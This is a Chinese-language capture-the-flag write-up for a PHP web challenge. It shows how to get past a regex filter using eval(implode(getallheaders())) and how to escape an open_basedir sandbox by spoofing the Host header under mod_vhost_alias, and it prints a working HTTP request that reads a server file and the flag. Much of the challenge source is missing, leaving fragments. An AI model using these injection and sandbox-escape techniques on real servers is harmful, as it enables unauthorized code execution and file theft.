





题目源码：
1 |
|
?action=go
1 |
|
- 不太明白这
个‘;’ ===`的意思…… - (?R)? 不懂……
1 | ?: 匹配前面的子表达式零次或一次，或指明一个非贪婪限定符。要匹配 ? 字符，请使用 \?。 |
0x01 正则匹配：可以递归执行函数，不可以带参数，于是学习各种姿势
1 | ?cmd=print(phpinfo()); |
0x02 沙盒绕过
?cmd=print(phpinfo());发现

学习两个小知识
mod_vhost_alias
本模块通过将 HTTP 请求中的 IP 地址和/或
Host:头内容转换为所要提供服务的文件的路径名称来创建动态的虚拟主机配置
php中的配置：auto_prepend_file
在配置文件php.ini中有两个选项auto_prepend_file和auto_append_file。通过这两个选项来设置页眉和脚注，可以保证它们在每个页面的前后被载入。使用这些指令包含的文件可以像使用include()语句包含的文件一样
估计init.php会这么一句话
ini_set(“open_basedir”,”/var/www/$hostname/:/tmp/“);
所以这里通过修改host来修改沙盒的open_basedir。目的：先逃逸后读取
正常的open_basedir()

访问webroot下的open_basedir()

403是因为webroot(/var/www/sandbox/)没有index.php，正好说明已经逃逸出了沙盒
所以去访问39093088bf9a9d33d5dd5b973cc1232e2145ee49/index.php 即可调用命令
借用/39093088bf9a9d33d5dd5b973cc1232e2145ee49/index.php来执行命令

之所以可以借用，是由于这几句代码
1 | $dir = '../sandbox/'.$token.'/'; |
读取flag
现在已经经open_basedir修改为/var/www/sandbox/了，于是读取init.php
1
2
3
4GET /269577e99009788991126ac76f84c473aa02192f/index.php?cmd=eval(implode(getallheaders())); HTTP/1.1
cmd: echo ini_get("open_basedir");$m3lon = readfile("/var/www/sandbox/init.php");print $m3lon;//
Host: .r-cursive.ml
Content-Length: 2

1
2
3
4
ini_set("open_basedir", $_SERVER['DOCUMENT_ROOT']."/:/tmp/");
// flag: RCTF{apache_mod_vhost_alias_should_be_configured_correctly}